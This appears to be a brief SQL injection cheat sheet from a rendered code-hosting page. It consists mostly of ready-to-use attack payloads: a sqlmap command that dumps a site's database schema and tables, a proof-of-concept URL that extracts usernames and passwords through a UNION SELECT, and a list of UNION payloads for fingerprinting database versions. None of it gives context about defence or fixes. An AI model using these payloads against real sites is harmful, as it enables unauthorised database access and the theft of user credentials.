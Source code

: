 <h1>SQL Injection</h1>

<h2>Reflected SQL Injection:</h2>
<code>sqlmap --url https://$domain/filter?category=Lifestyle --dump --schema --tables --columns</code>

<p>Database: public</p>
<p>Table: users</p>

<h4>POC</h4>
<code>https://$domain/filter?category=Lifestyle'+UNION+SELECT+username,+password+FROM+users--</code>

<h5>Version</h5>
<p>First detect numbers of columns</p>
<p><code>' UNION SELECT NULL,@@version</code></p>
<p><code>' UNION SELECT NULL,NULL,* FROM v$version</code></p>
<p><code>' UNION SELECT banner FROM v$version</code></p>
<p><code>' UNION SELECT version FROM v$instance</code></p>
<p><code>' UNION SELECT version()</code></p>

